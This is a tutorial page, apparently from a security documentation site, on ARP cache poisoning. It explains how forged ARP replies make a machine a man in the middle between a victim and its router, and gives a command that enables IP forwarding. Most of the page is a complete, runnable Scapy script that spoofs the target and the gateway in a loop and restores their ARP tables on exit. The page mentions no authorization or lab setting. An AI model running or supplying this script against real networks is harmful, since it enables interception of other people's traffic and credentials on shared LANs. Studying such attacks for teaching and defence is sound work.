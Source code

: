 ```yaml
---
title: "Arp cache poisoning"
date: 2019-01-06
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


With Scapy you can easily send crafted ARP reply packets. The idea is to constantly send the victim ARP replies telling it we are the router.  
We do the same for the router, we tell it we are the victim machine. After we become the man in the middle we can intercept & inspect all data.

To allow forwarding of packets between the victim and the gateway we need to enable ip_forward:

```Shell
echo '1' > /proc/sys/net/ipv4/ip_forward
```

The function get_mac sends arp request message ("Who has") to the broadcast address, so all clients on the LAN receive it,  
we will get the correct mac address back from the target_ip.  

Now that we have the correct mac address from the target we can start sending spoofed reply packets with spoof function ('target_ip' <b>is at</b> 'attacker mac address')   

![arp reply 1](1at.png)

and

![arp reply 2](18at.png)

The full code:  

```python
#!/usr/bin/env python
import scapy.all as scapy
import time
import argparse

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest="target",
                        help="Target IP")
    parser.add_argument("-g", "--gateway", dest="gateway",
                        help="Gateway IP")
    options = parser.parse_args()
    return options

# Get target mac address using ip address
def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1,
                              verbose=False)[0]
    return answered_list[0][1].hwsrc

# Change mac address in arp table
def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac,
                       psrc=spoof_ip)
    scapy.send(packet, verbose=False)

# Restore mac address in arp table
def restore(dest_ip, source_ip):
    dest_mac = get_mac(dest_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=dest_ip, hwdst=dest_mac,
                       psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)

options = get_arguments()
sent_packets_count = 0
try:
    while True:
        spoof(options.target, options.gateway)
        spoof(options.gateway, options.target)
        sent_packets_count = sent_packets_count + 2
        print("\r[+] ARP spoofing started - packets sent: " + str(sent_packets_count))
        time.sleep(2)
except KeyboardInterrupt:
    print("\nCTRL+C pressed .... Reseting ARP tables. Please wait")
    restore(options.target, options.gateway)
    restore(options.gateway, options.target)
    print("\nARP table restored. Quiting")

```
